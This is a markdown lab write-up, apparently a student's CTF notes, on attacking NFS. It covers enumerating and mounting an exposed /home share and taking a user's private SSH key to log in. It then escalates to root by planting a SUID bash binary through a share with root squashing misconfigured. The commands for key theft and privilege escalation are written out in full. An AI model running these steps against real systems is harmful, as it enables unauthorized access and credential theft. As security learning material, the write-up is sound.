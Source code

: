 # Network File System

Allows system to share directories and files with others over a network

1. Client request to mount a directory from a remote host on local directory
2. Server checks if user has permission to mount whatever was requested
3. Server then returns a file handle which uniquely identifies each file and directory
4. To access files using NFS, RPC call is placed to NFSD on server.

You can use NFS to transfer files from Windows to Non-Windows.

## Enumerating NFS

### NFS-Common

Every system with NFS needs this installed, contains lockd, statd, **showmount**, nfsstat, gssd, idmap and **mount.nfs**.

Port scanning: 
``nmap -A -p- -oN nmap-$ip.out $ip`` and ``cat nmap-$ip.out | grep open``

### Mounting NFS shares

``sudo mount -t nfs IP:share /tmp/mount/ -nolock``

![image](https://user-images.githubusercontent.com/80155116/111902307-d3a36280-8aa1-11eb-82f9-e9b9d4446c77.png)

To list the NFS shares:

``/usr/sbin/showmount -e [IP]``

![image](https://user-images.githubusercontent.com/80155116/111902720-a788e100-8aa3-11eb-813d-2cf85294b561.png)

*not sure why this doesn't work, i had to manually trasverse to the location*

![image](https://user-images.githubusercontent.com/80155116/111902742-bb344780-8aa3-11eb-9e7d-249fd1f9fec1.png)

So now we have the share name ``/home``.

Make a folder on local machine to mount the share to ``mkdir /tmp/mount``, since it is /tmp, it will be removed upon restart.

Now run the mount command mentioned earlier to the folder ``sudo mount -t nfs $ip:home /tmp/mount/ -nolock``.

![image](https://user-images.githubusercontent.com/80155116/111902863-50cfd700-8aa4-11eb-911f-f58f82317d03.png)

``ls -la`` to list all the hidden files! we're interested in the .ssh folder, might contain keys.

![image](https://user-images.githubusercontent.com/80155116/111903015-fd11bd80-8aa4-11eb-8624-81a4b8ca6bb9.png)

authorized_keys —> An authorized key in SSH is a public key used for granting login access to users

id_rsa → this is the private key of the user which used to login to the system

id_rsa.pub → this is the key that used send others to encrypt when they send message to us.

### To gain SSH access

1. ``cp id_rsa /tmp`` copy id_rsa to /tmp
2. ``chmod 600 id_rsa`` change permission
3. ``ssh -i id_rsa cappucino@$ip``

## Exploiting NFS

### Shell Privilege Escalation

We'll try this since we have low shell on the machine, depending on how it's configured.

### root_squash

Prevents anyone connecting NFS from getting root access to the NFS volume, root squashing is enabled on default.

### SUID

When files are with SUID bit set, it means the files can be run with permission of owner/group, we'll use this to get shell with these privileges.

### Here's how to do it

* We can upload files and control their permissions
* We can set permission of whatever we upload(in this case a bash shell executable)
* We then log in with SSH, execute the file to get root shell.

``NFS Access ->

        Gain Low Privilege Shell ->

            Upload Bash Executable to the NFS share ->

                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->

                    Login through SSH ->

                        Execute SUID Bit Bash Executable ->

                            ROOT ACCESS
``
Download the bash file and move it to the mount on local. ``cp ~/Downloads/bash .``

``sudo chown root bash`` to make sure it's own by root user.

``chmod +s bash`` to add the SUID bit permission.

``chmod o+x bash`` to add excecute on everyone else,

![image](https://user-images.githubusercontent.com/80155116/111904211-8aa3dc00-8aaa-11eb-95a6-bfd99ba4b81f.png)

you can see i spent ages here trying to figure out how to change permission of others to executable........................

``ssh -i id_rsa cappucino@$ip`` to ssh back to user,

``./bash -p`` to run the shell, ``-p`` persists the permissions so it can run as root with SUID, its important!

![image](https://user-images.githubusercontent.com/80155116/111904346-61d01680-8aab-11eb-9869-9ae474023bdb.png)

![image](https://user-images.githubusercontent.com/80155116/111904353-6ac0e800-8aab-11eb-8193-dd65f2167077.png)





